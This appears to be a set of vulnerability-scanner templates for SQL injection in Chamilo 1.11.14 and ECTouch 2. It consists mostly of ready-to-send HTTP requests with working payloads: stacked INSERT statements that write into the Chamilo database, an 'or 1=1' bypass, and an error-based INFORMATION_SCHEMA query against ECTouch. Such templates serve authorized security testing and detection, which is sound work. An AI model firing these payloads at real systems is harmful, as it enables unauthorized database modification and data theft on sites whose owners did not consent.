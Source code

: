 **Type - status**
- status
    1. 200

---
# Chamilo 1.11.14 - SQL Injection
## Description
- Chamilo 1.1.14 contains a SQL injection vulnerability. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
- severity - critical
- tags - chamilo,sqli
## Requests
### Step - 1
```
POST /main/inc/ajax/extra_field.ajax.php?a=search_options_from_tags HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

type=image&field_id=image&tag=image&from=image&search=image&options=["test'); INSERT INTO extra_field_rel_tag(field_id, tag_id, item_id) VALUES (16, 16, 16); INSERT INTO extra_field_values(field_id, item_id,value) VALUES (16, 16,'{{randstr}}'); INSERT INTO extra_field_options(option_value) VALUES ('{{randstr}}'); INSERT INTO tag (id, tag, field_id,count) VALUES(16, '{{randstr}}', 16,0) ON DUPLICATE KEY UPDATE     tag='{{randstr}}', field_id=16, count=0;  -- "]

```
### Step - 2
```
POST /main/inc/ajax/extra_field.ajax.php?a=search_options_from_tags HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

type=image&field_id=image&tag=image&from=image&search=image&options=["test') or 1=1 -- "]

```
### Matchers

**Type - dsl**
- dsl
    1. contains(body_2, "{{randstr}}")

---
# ECTouch 2 - SQL Injection
## Description
- ECTouch 2 contains a SQL injection vulnerability. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
- severity - critical
- tags - etouch,sqli
## Requests
- Method - GET
### URL
- {{BaseURL}}/upload/mobile/index.php?c=category&a=asynclist&price_max=1.0%20AND%20(SELECT%201%20FROM(SELECT%20COUNT(*),CONCAT(0x7e,md5({{num}}),0x7e,FLOOR(RAND(0)*2))x%20FROM%20INFORMATION_SCHEMA.CHARACTER_SETS%20GROUP%20BY%20x)a)''